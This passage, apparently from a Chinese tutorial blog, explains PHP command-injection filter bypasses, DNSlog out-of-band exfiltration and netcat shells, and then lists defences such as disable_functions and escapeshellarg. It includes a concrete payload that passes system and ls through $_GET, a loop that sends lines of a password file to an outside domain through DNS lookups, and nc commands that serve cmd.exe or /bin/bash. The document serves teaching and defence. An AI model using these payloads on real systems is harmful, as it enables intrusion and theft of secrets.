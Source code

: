 ## 引号逃逸

在PHP中字符串并不总是伴随着引号我们可以主动声明它的类型，像例如`$a = (string)foo;`在这种情况下，变量`$a`就是字符串`“foo”`
此外，还可以使用圆括号，如下图：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528144140685.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

第一种绕过方式：使用(system)(ls);，但因为不能使用“system”这个字符串，所以我们可以用字符串连接，例如(sy.(st).em)(ls);

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528144414796.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
>第二种绕过方式：使用变量`$_GET`，如果我发送这样一个请求`?a=system&b=ls&code=$_GET[a]($_GET[b]);`，在代码执行中`$_GET[a]`和`$_GET[b]`会被`system`和`ls`所替代，最终绕过引号的安全限制

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528144844834.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

# DNSlog外带
利用域名解析请求
- 假设我们有个可控的二级域名，那么目标发出三级域名解析的时候，我们这边是能够拿到它的域名解析请求的，可以配合DNS请求进行命令执行的判断，这一般被称为dnslog
- 要通过dns请求即可通过ping命令，也能通过curl命令，只要对域名进行访问，让域名服务器进行域名解析就可实现
- 例：可以去ceye.io注册个账号，注册完后会给一个域名，如果有域名解析请求会有记录；如得到的域名是test.ceye.io，当有主机访问1111. test.ceye.io时，就会记录下来这个域名解析请求；其中1111可以替换成我们需要获取的信息；如：`cat /data/secret/password.txt | while read exfil; do host $exfil.contextis.com 192.168.107.135; done`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528092154214.png#pic_center)
Wireshark抓包

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210528092217871.png#pic_center)
# 反弹shell

```bash
nc -L -p 9090-e cmd.exe (Windows)

nc -l -p 9090-e /bin/bash (*nix)
```

# 防范措施

>1. 在PHP下禁用高危系统函数
找到php.ini，查找到disable_functions，添加禁用的函数名
>2. 参数的值尽量使用引号包括，并在拼接前调用addslashes进行转义
>3. 不执行外部的应用程序或命令
尽量使用自定义函数或函数库实现外部应用程序或命令的功能。在执行system、eval等命令执行功能的函数前，要确认参数内容
>4. 使用escapeshellarg函数处理相关参数
escapeshellarg函数会将用户引起参数或命令结束的字符进行转义，如单引号"'"会被转义为"\’"，双引号“””会被转义为"\""，分号";"会被转义为"\;"，这样escapeshellarg会将参数内容限制在一对单引号或双引号里面，转义参数中包括的单引号或双引号，使其无法对当前执行进行截断，实现防范命令注入攻击的目的
>5. 使用safe_mode_exec_dir指定可执行的文件路径
将php.ini文件中的safe_mode设置为On，然后将允许执行的文件放入一个目录，并使用safe_mode_exec_dir指定这个可执行的文件路径；这样，在需要执行相应的外部程序时，程序必须在safe_mode_exec_dir指定的目录中才会允许执行，否则执行将失败

